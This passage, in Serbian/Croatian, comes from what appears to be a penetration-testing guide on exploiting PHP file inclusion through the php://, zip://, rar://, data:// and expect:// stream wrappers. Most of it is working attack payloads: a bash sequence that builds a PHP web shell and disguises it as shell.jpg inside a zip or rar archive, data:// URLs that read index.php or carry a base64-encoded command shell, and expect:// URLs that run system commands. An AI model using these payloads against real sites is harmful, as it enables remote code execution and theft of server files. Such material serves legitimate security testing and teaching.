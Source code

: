 Možete koristiti **php://stdin, php://stdout i php://stderr** da pristupite **file descriptorima 0, 1 i 2** redom (nisam siguran kako bi ovo moglo biti korisno u napadu)

### zip:// i rar://

Postavite Zip ili Rar fajl sa PHPShell-om unutra i pristupite mu.\
Da biste mogli zloupotrebiti rar protokol, **potrebno je da bude posebno aktiviran**.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```

### data://

### data://

```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Napomena da je ovaj protokol ograničen php konfiguracijama **`allow_url_open`** i **`allow_url_include`**

### expect://

Expect mora biti aktiviran. Možete izvršiti kod koristeći ovo:

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### input://
